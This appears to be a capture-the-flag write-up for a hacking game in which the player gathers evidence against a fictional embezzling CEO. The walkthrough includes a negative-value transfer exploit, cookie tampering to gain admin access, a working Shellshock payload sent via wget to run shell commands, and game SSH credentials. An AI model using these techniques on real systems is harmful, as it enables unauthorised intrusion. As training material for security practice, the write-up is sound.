 # Write-up
Note: try to do it yourself, it is a much more rewarding experience. See this as
a last resort resource.

## 1 - Start
start at:
`http://45.55.54.126/`

want to prove that CEO is embezzling funds.

gives employee portal:
`104.236.74.251`
user: `jameson`
pass: `hunter72`

gives bank interface:
`104.236.74.251:3000`
user: `bank`
pass: `pbeukpbnhovhyixcialnlhpzo`


## 2 - Bank & Employee Portal
### 2.1 - Bank Interface
`http://104.236.74.251:3000/`

turns out it allows negative values:

```
TRANSFER CS -1000.0
(wait 10s)
WITHDRAW 1.0
```

gives URL to scraped accounts:
`http://104.236.74.251:3000/JJJ/all-in-internal-network.txt`

### 2.2 - Employee Portal
starts at: `http://104.236.74.251/`

personal site: `http://104.236.74.251/~dglenn/`
see poems, go up a folder, see files: `http://104.236.74.251/~dglenn/private/`

one of the keys: `http://104.236.74.251/~dglenn/private/key.txt`


also, security notice here: `http://104.236.74.251/mail/isn.html`

it tells us that we want to reach the *new* website (we're currently on the old
one).

it tells us that the new website will be on the internal network (good for us).

it tells us that we'll need 5 keys to access the boss docs.



change cookies so that `accesslevel=2` (`document.cookie="accesslevel=2";`), get
admin.


address of new website: `104.131.92.247`

will need to combine keys here: `http://104.236.74.251/~wscott/keys`

will access the boss dosc here: `http://104.236.74.251/` (user `bdupont`)

## 3 - New Website
`http://104.131.92.247/index.cgi`

Apache & CGI? **SHELLSHOCK**!

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/ls" http://104.131.92.247/index.cgi`
[resource](http://security.stackexchange.com/a/68203/44738)

gives us the files:

 * `index.cgi` - has code to trigger Shellshock

 * `index.php` - redirects to `index.cgi`

 * `admin.php` - redirects to `gist.github` and `die()`


`ls` on `/home` (or `cat /etc/passwd`) shows there is a user `jhendricks`

`ls` around (`..`), find file `note`, `cat` it:


```
To: Jim Hendricks
From: Carla Lynn
Date: September 5, 2015
Subject: Public frontend

The public frontend has been set up and can be found at 104.131.92.247

Your user account is as follows:

Username: jhendricks
Password: oXwBJMtx3BJ5yKg

As an IT manager it is your responsibility to make sure this server, as well as our other servers, are frequently updated with the latest patches available.

Please keep this memo safe and change your password immediately.

Regional IT Director
Carla Lynn
```

## 4 - Jhendricks
frontend is at: `104.131.92.247`

user: `jhendricks`
pass: `oXwBJMtx3BJ5yKg`

Those are valid SSH creds. Login.


Running `set` to see env vars, see MAIL (learned about that var and that is
represents unread emails).

`cat /var/spool/mail/jhendricks`:

```
From carla@thenorth.com  Sat Sep  5 02:41:53 2015
Return-Path: <carla@thenorth.com>
X-Original-To: jhendricks@thenorth.com
Delivered-To: jhendricks@thenorth.com
Received: by mail3.thenorth.com
  id B24C33FEA3; Sat,  5 Sep 2015 02:41:53 -0400 (EDT)
  Date: Sat, 05 Sep 2015 02:41:53 -0400
  To: jhendricks@thenorth.com
  Subject: Info
  MIME-Version: 1.0
  Content-Type: text/plain; charset=us-ascii
  Content-Transfer-Encoding: 7bit
  Message-Id: <20150905064153.B24C33FEA3@thenorth.com>
  From: carla@thenorth.com (carla)
  Status: RO

  Here are our servers. I'll keep you updated as we get more

  10.132.106.223 - 104.236.251.33
  10.132.3.229 - 45.55.179.181
  10.132.170.147 - 45.55.183.167
  10.132.114.141 - 45.55.47.192
  10.132.34.120 - 104.131.109.3
```


Could login to `45.55.47.192` with `wscott`:
user: `wscott`
pass: `oTLhoRZ8JOIDhkD`

## 5 - Wscott
SSH to `45.55.47.192`
user: `wscott`
pass: `oTLhoRZ8JOIDhkD`

`cat secretkey/README`:

```
If you're snooping around in this folder, you're
either Wesley (myself) or an intruder. If the latter
is true, get lost.

----

New security policy means that our keys can be combined
to get Bert's secret. Until the security of these
servers is proven in practice keys should be stored on
the old webserver, here:

http://104.236.74.251/~wscott/secret

Key is protected with a passphrase. The passphrase is
not stored in plaintext for security purposes. Instead
it is hashed with /usr/local/bin/securehash. Of course
secure hash is chosen because it is far more secure than
broken hash functions such as MD5.

Oh, and if you're an intruder: securehash is not related
to NIST's "SHA ('Secure' Hash Algorithm)" which is of
course not secure at all. securehash is my own invention
and nobody has broken it at all yet, so you can leave now.

Hash: 84c355da8831b62075d2ad9133ce6512
```
